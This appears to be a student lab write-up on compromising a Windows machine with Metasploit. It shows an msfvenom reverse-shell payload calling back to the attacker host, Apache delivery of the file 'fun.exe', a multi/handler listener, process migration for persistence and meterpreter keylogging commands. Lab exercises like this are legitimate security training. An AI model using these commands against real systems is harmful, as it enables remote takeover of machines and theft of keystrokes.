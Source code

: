 
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/user-attachments/assets/3b077929-dea4-4724-876e-65b053b9119c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT!
![image](https://github.com/user-attachments/assets/cd8a576f-0e54-4518-8052-bc002cc28630)



copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/3994b5fa-7876-4069-a78f-736006b6bef5)


Start apache server
sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/1856b3a2-9b24-4708-a846-4e35ee09f9fb)


Check the status of apache2
![image](https://github.com/user-attachments/assets/3edd2f73-e9fd-4beb-a971-73606b7f0e3f)


Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
![image](https://github.com/user-attachments/assets/95f21f1a-6496-4fae-bc09-0f9af4e50276)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/user-attachments/assets/49d0b2a1-a77d-4e3e-aaef-7da5c81ca28a)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/user-attachments/assets/c301d7c1-8f0d-4ead-8f6f-dc8ed41c0650)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/4575812f-f3dd-4b76-832f-b4695d10459a)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/44ecd744-aac7-4770-a515-f1b48f0c5d30)

keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/7c3beadd-6b5a-4a06-8c9f-1e0c68d4313f)







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
